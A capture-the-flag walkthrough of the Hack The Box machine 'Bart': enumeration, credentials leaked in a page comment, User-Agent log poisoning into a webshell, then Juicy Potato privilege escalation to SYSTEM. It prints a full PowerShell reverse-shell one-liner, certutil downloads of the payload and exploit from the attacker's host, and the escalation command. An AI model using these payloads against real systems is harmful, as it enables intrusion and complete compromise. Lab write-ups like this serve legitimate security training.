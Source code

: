 # HTB - Bart

#### Ip: 10.10.10.81
#### Name: Bart
#### Difficulty: Medium

----------------------------------------------------------------------

![Bart.png](../assets/bart_assets/Bart.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Bart]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.81 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-06 12:14 CDT
Nmap scan report for 10.10.10.81
Host is up (0.066s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://forum.bart.htb/
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.70 seconds
```

Ok looks like just port 80 is open here. Lets add forum.bart.htb to our `/etc/hosts` file.

Taking a look at the webpage we find a company page:

![site.png](../assets/bart_assets/site.png)

taking a look at the page source we also find a comment left behind that includes a name:

name.png

Because port 80 redirected to forum.bart.htb I wondered if there were more domains we could fuzz. Lets try using wfuzz:

wfuzz.png

Ok cool, looks like there is also a monitor.bart.htb- lets add that to `/etc/hosts` as well.

This leads us to a server monitor page. 

monitor.png

Because we've found the username harvey, I tried some random passwords and got lucky logging in with the credentials harvey:potter, which we found in the page source comment on forum.bart.htb. 

login.png

Looking in the Severs section of the page we find yet another domain to add to `/etc/hosts`

Navigating to the site we find another login page:

dev.png

Trying the credentials harvey:potter again we get a verbose error message `The Password must be at least 8 characters`. But if we try a user we know won't exist like testing:testing123 we get the message `Invalid Username or Password`. This leads me to believe that the user harvey is a valid username here. 

Trying some more directory scanning we find the page http://internal-01.bart.htb/simple_chat/register_form.php. Navigating to the page we get the message `The page cannot be displayed because an internal server error has occurred.`

Searching Google for simple_chat/register_form.php I find this GitHub page which contains source code for the page. https://github.com/magkopian/php-ajax-simple-chat/blob/master/simple_chat/register.php

gh.png

Cool, looks like the page wants two fields uname and passwd. Lets try creating a new user using curl and making a POST request to /register.php

```text
┌──(ryan㉿kali)-[~/HTB/Bart]
└─$ curl -X POST http://internal-01.bart.htb/simple_chat/register.php -d "uname=testing&passwd=password123"
```

Nice, that seemed to work. Lets return to the login page and authenticate.

in.png

Awesome, that worked! 

Taking a look at the source code we find an interesting link and function:

source.png

Capturing this in Burp and playing around with it a bit, I find that the User Agent field is vulnerable. I can inject a webshell into the field and get execution on the box:

php.png

whoami.png

Heading over to https://www.revshells.com/ and grabbing a PowerShell reverse shell and URL encoding it, I can set up a NetCat listener and get a reverse shell back:

burp.png

```text
┌──(ryan㉿kali)-[~/HTB/Bart]
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.72] from (UNKNOWN) [10.10.10.81] 50147
whoami
nt authority\iusr
PS C:\inetpub\wwwroot\internal-01\log> hostname
BART
PS C:\inetpub\wwwroot\internal-01\log>
```

### Privilege Escalation

At this point, I still don't seem to have access to the user.txt flag, so let's try to escalate privileegs to administrator.

Running `whoami /all` I see that `SeImpersonatePrivilege` is enabled. This means we may be able to try something like juicy potato to escalate privileges. 

First we'll need to create a file called shell.bat:

```text
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.72',444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Then we'll need to transfer to the target the shell.bat file as well as juicy potato:

```text
certutil -urlcache -split -f "http://10.10.14.72/shell.bat"

certutil -urlcache -split -f "http://10.10.14.72/JuicyPotato.exe"
```

```text
PS C:\TEMP> dir


    Directory: C:\TEMP


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
-a----       06/09/2023     19:24         347648 JuicyPotato.exe               
-a----       06/09/2023     19:23            522 shell.bat 
```

Next we'll set up a NetCat listener and run:

```text
C:\TEMP\JuicyPotato.exe -l 444 -p C:\TEMP\shell.bat -t * -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}"
```

And we will catch a shell back as nt authority\ system!

jp.png

All we have to do now is grab the user.txt and root.txt flags:

flags.png

Thanks for following along!

-Ryan

----------------------------------------
